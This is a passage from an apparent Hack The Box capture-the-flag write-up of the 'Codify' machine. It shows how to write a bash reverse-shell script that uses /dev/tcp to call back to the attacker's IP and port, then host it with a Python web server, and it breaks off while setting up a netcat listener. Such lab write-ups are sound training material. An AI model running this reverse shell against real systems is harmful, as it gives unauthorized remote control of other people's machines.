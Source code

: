 ![codify5](./assets/codify5.png)

We can use this to get a reverse shell.

First, locally, we create a bash script with a callback to our local machine.

Note: If you use openvpn connection to HTB the IP is under the tun0 interface.

```shell
labadmin@labmachine:~/codify$ echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.85/6000 0>&1' > rev.sh

labadmin@labmachine:~/codify$ cat rev.sh
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.85/6000 0>&1
```

Next we start a local python web server to host the script.

```bash
labadmin@labmachine:~/codify$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now we start a local Netcat listener which will catch the reverse shell once our script has been executed and connect from target host. The port must be same as we defined in the reverse shell script.
